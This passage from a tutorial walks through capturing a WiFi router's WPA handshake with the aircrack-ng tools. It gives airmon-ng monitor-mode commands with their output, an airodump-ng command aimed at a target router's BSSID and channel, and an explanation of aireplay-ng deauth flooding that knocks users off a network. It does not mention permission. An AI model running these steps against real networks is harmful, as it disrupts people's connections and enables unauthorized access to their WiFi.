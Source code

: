 
We're interested in the MAC Address (BSSID) of the router and the channel it's running on.

In the above example it's 98:42:65:D2:8E:47 and channel 6. We'll use these in the next steps.

## Put your wifi card in Monitor mode

`airmon-ng`

```plaintext
PHY     Interface        Driver     Chipset

phy0    wlx00198671d2c9  rt2800usb  Ralink Technology, Corp. RT5370
```

`airmon-ng check kill`

`airmon-ng start wlx00198671d2c9`

```plaintext
PHY     Interface        Driver     Chipset

phy1    wlx00198671d2c9  rt2800usb  Ralink Technology, Corp. RT5370
Interface wlx00198671d2c9mon is too long for linux so it will be renamed to the old style (wlan#) name.

        (mac80211 monitor mode vif enabled on [phy1]wlan0mon
        (mac80211 station mode vif disabled for [phy1]wlx00198671d2c9)
```

My card had a long name so airmon changed it to a simpler default when I put it into monitor mode to **wlan0mon**.

Check airmon-ng again, it should now display your card in monitor mode, Note how 'wlx00198671d2c9' is now 'wlan0mon'

`airmon-ng`

```plaintext
PHY     Interface   Driver      Chipset

phy1    wlan0mon    rt2800usb   Ralink Technology, Corp. RT5370
```

## The attack

Open 2 terminal tabs/windows and run airodump-ng again. This time point it at the MAC address (bssid) and channel of the router you want to attack. we pass `-w` as an argument to write/save to a file

`airodump-ng --bssid 98:42:65:D2:8E:47 -c6 wlan0mon -w handshake`

In another window, start kicking devices off the router by spamming it with deauth packets.

Aireplay-ng is the replay attack suite. we use it to replay packets and inject deauth frames to a specific router, running on a certain channel using attack mode ‘0’ (Deauth Attack). The number ‘0’ after it is the amount of Deauth frames to send. If set to 0, it sends indefinitely (AKA kick people off WiFi). Finally you give a WiFi adapter to inject the frames from, in this case it’s my cheap old Ralink WiFi adapter. This cost less than $5 over 6-7 years ago and it’s only 2.4GHz so it’s impressive to see it still capable of performing the attacks described in 2025.
